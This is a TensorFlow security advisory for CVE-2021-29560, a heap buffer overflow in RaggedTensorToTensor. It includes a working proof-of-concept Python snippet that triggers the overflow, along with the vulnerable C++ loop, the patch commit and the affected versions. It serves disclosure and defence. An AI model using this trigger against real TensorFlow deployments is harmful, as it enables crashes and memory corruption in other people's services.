 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-048.md
## TFSA-2021-048: Heap buffer overflow in `RaggedTensorToTensor`

### CVE Number
CVE-2021-29560

### Impact
An attacker can cause a heap buffer overflow in
`tf.raw_ops.RaggedTensorToTensor`:

```python
import tensorflow as tf

shape = tf.constant([10, 10], shape=[2], dtype=tf.int64)
values = tf.constant(0, shape=[1], dtype=tf.int64)
default_value = tf.constant(0, dtype=tf.int64)
l = [849, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]
row = tf.constant(l, shape=[5, 43], dtype=tf.int64)
rows = [row]
types = ['ROW_SPLITS']

tf.raw_ops.RaggedTensorToTensor(
    shape=shape, values=values, default_value=default_value,
    row_partition_tensors=rows, row_partition_types=types)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/d94227d43aa125ad8b54115c03cece54f6a1977b/tensorflow/core/kernels/ragged_tensor_to_tensor_op.cc#L219-L222)
uses the same index to access two arrays in parallel:

```cc
for (INDEX_TYPE i = 0; i < row_split_size - 1; ++i) {
  INDEX_TYPE row_length = row_split(i + 1) - row_split(i);
  INDEX_TYPE real_length = std::min(output_size, row_length);
  INDEX_TYPE parent_output_index_current = parent_output_index[i];
  ...
}
```

Since the user controls the shape of the input arguments, an attacker could
trigger a heap OOB access when `parent_output_index` is shorter than
`row_split`.

### Patches
We have patched the issue in GitHub commit
[a84358aa12f0b1518e606095ab9cfddbf597c121](https://github.com/tensorflow/tensorflow/commit/a84358aa12f0b1518e606095ab9cfddbf597c121).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
